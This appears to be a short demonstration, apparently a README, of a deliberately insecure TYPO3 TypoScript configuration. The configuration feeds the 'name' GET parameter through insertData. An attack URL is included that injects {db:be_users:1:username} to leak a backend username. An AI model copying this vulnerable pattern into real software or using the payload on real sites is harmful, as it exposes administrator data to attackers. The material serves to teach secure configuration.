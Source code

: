 # Stupid TypoScript

```
page.10.variables {
  name = COA_INT
  name {
    10 = TEXT
    10 {
      if.notEmpty.data = gp:name
      data = gp:name
      noTrimWrap = |<span class="page-uid-{page:uid}">Hi |! Great you're back</span>|
      insertData = 1
    }
  }
}
```

## Attack

http://typo3v9-hack.ddev.local/index.php?id=1&name=Visitor

```
http://typo3v9-hack.ddev.local/index.php?id=1&name={db:be_users:1:username}

```
